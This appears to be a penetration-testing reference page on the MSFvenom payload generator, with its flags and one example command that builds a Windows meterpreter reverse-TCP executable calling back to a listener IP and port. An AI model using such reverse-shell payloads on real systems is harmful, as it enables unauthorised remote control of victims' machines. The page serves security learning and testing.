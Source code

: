 ```yaml
---
title : "MSFvenom"
# pre : ' '
description : "MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015."
date : 2021-07-06T15:27:20+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## MSFvenom

Is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

### Installation

Install the [MetaSploit framework]({{< ref "metasploit/" >}}).

### Usage

```plain
msfvenom [options] <var=val>
```

### Flags

```plain
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

### Examples

Simple non-meterpreter staged payload for Windows.

```plain
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.3.93 LPORT=1235 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

### URL list

* [Offensive-Security.com - MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
* [Infinitelogins.com - MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
